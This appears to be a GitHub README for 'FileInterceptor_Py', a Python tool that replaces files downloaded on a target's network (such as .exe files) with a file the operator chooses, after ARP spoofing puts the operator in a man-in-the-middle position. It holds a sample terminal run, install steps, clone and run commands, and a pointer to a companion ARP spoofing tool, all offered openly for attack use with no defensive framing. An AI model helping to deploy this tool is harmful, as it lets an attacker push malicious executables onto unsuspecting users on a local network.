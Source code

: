 # FileInterceptor_Py
A file interceptor is exactly what it sounds like. It replaces files downloaded on target system with a specified file.

```
╭─compromyse@Aspire ~/Projects/FileInterceptor_Py ‹main*› 
╰─$ sudo ~/.pyenv/versions/3.6.0/bin/python3.6 FileInterceptor.py 

███████╗██╗██╗░░░░░███████╗██╗███╗░░██╗████████╗███████╗██████╗░░█████╗░███████╗██████╗░████████╗░█████╗░██████╗░
██╔════╝██║██║░░░░░██╔════╝██║████╗░██║╚══██╔══╝██╔════╝██╔══██╗██╔══██╗██╔════╝██╔══██╗╚══██╔══╝██╔══██╗██╔══██╗
█████╗░░██║██║░░░░░█████╗░░██║██╔██╗██║░░░██║░░░█████╗░░██████╔╝██║░░╚═╝█████╗░░██████╔╝░░░██║░░░██║░░██║██████╔╝
██╔══╝░░██║██║░░░░░██╔══╝░░██║██║╚████║░░░██║░░░██╔══╝░░██╔══██╗██║░░██╗██╔══╝░░██╔═══╝░░░░██║░░░██║░░██║██╔══██╗
██║░░░░░██║███████╗███████╗██║██║░╚███║░░░██║░░░███████╗██║░░██║╚█████╔╝███████╗██║░░░░░░░░██║░░░╚█████╔╝██║░░██║
╚═╝░░░░░╚═╝╚══════╝╚══════╝╚═╝╚═╝░░╚══╝░░░╚═╝░░░╚══════╝╚═╝░░╚═╝░╚════╝░╚══════╝╚═╝░░░░░░░░╚═╝░░░░╚════╝░╚═╝░░╚═╝

User is root, the script can continue...


ARP spoof and get to the man in the middle.


What file extention needs to be spoofed? (.exe, .pdf, etc)

> .exe


Enter the direct download link for the file to be downloaded. (https://example.org/example.file)

> https://example.org/example.exe


Tell me a queue number that is not being used (0, 1, 2, etc)

> 0
Spoofing the file...
^C
Flushing Iptables rules and exiting...
```

# Running

> Install python and git

* Install pyenv from https://github.com/pyenv/pyenv-installer

* Install python 3.6 from pyenv because netfilterqueue does not support 3.6 < python.

> Clone git repository
```
git clone https://github.com/compromyse/FileInterceptor_Py
```

> Install script requirements
```
sudo python3.6 -m pip install -r requirements.txt
```


> Arp spoof

Go to https://github.com/compromyse/ArpSpoof_Py and use it to get man in the middle before running the script

> Run the script as **root**
```
sudo python3.6 FileInterceptor.py
```

# Thanks!